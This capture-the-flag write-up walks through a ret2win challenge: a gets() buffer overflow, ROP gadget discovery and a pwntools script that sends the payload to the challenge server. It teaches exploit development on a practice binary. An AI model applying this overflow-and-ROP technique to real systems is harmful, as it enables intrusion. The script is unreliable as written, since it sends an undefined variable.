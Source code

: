 ----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:

![Alt text](Images/ret2win2.png)

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:

![Alt text](Images/ret2win1.png)

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

![Alt text](Images/main.png)


We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()

![Alt text](Images/user_input.png)

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

![Alt text](Images/win.png)

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:


![Alt text](Images/params.png)
![Alt text](Images/param2.png)


we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

![Alt text](Images/gef.png)


Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 

![Alt text](Images/search.png)


Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:

![Alt text](Images/pop_rdi.png)

And then a pop rsi:

![Alt text](Images/pop_rsi.png)

But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.

![Alt text](Images/readelf.png)


And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------